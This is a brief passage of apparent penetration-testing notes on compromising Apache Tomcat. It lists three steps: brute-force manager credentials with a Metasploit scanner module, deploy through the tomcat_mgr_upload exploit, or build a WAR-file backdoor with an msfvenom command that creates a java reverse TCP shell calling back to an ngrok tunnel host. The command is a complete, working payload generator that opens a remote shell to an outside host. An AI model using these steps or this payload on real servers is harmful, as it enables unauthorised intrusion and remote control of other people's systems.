 1. Hack manager login credentials using 'auxiliary/scanner/http/tomcat_mgr_login'
2. Use 'exploit/multi/http/tomcat_mgr_upload'
3. Or Generate WAR file backdoor using (assuming we have ngrok enable)
```
msfvenom -p java/shell_reverse_tcp LHOST=0.tcp.ngrok.io LPORT=14907 -f war > payload.war
```

